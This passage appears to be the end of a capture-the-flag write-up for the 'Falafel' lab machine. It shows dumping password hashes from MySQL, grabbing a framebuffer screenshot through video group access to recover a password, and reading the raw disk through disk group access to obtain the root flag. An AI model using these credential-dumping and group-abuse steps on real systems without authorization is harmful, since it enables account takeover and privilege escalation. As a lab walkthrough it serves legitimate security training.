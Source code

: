 That takes care of the user flag. Time for some further enumeration as user:moshe. Now that we have a ssh shell, lets see whats stored in the DB.
```
mysql -u moshe -p
Enter password: falafel[snip]
[..snip..]
mysql> use falafel
Database changed
mysql> select * from users;
+----+----------+----------------------------------+--------+
| ID | username | password                         | role   |
+----+----------+----------------------------------+--------+
|  1 | admin    | 0e462096931906507119562988736854 | admin  |
|  2 | chris    | d4ee02a22fc872e36d9e3751ba72ddc8 | normal |
+----+----------+----------------------------------+--------+
mysql>exit;
moshe@falafel:~$
```
Hash cracking time, favorite time!... Which didn't yield any good results.
So back to enumeration. checking groups you can see that there was some non-default assigned to moshe
```
moshe@falafel:~$ cat /etc/group|grep video
video:x:44:moshe
moshe@falafel:~$
```
Now video is an interesting group, according to Ubuntu Wiki[^4] ```The "video" group can access /dev/fb0``` which is a framebuffer.
So with that in mind we can run some simple commands and capture the image from fb0. But to be able to convert it into a image we also need the resolution of fb0.
```
moshe@falafel:~$ cat /dev/fb0 > /tmp/sb.raw
moshe@falafel:~$ cat /sys/class/graphics/fb0/virtual_size
1176,885
moshe@falafel:~$
```
Using SCP or your own preference in transferring the image to your own Kali, the script iraw2png.pl[^5] can be used to convert the "raw" image to a viewable png. which gets us the user:yossi password.
```
ssh yossi@10.10.10.73
yossi@10.10.10.73's password: Moshe[..snip..]
yossi@falafel:~$ cat /etc/group | grep disk
disk:x:6:yossi
yossi@falafel:~$
```
Again we see that yossi is in an interesting group "disk" gives the permission for users in the group to read contents of /dev/sdX.
```
yossi@falafel:~$ ls /dev/sda*
/dev/sda  /dev/sda1  /dev/sda2  /dev/sda5
yossi@falafel:~$ strings /dev/sda5 | grep root.txt
[..snip..]
echo "EatSleepPwnRepeat" > root.txt
[..snip..]
yossi@falafel:~$
```
This was a really interesting box!  
Done!


[^1]: [Magic Hashes](https://www.whitehatsec.com/blog/magic-hashes/)  
[^2]: [OWASP Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)  
[^3]: [Unix Stack Excange](https://unix.stackexchange.com/questions/32795/what-is-the-maximum-allowed-filename-and-folder-size-with-ecryptfs)  
[^4]: [Ubuntu Wikipedia](https://wiki.ubuntu.com/Security/Privileges)  
[^5]: [iraw2png.pl](https://www.cnx-software.com/2010/07/18/how-to-do-a-framebuffer-screenshot/)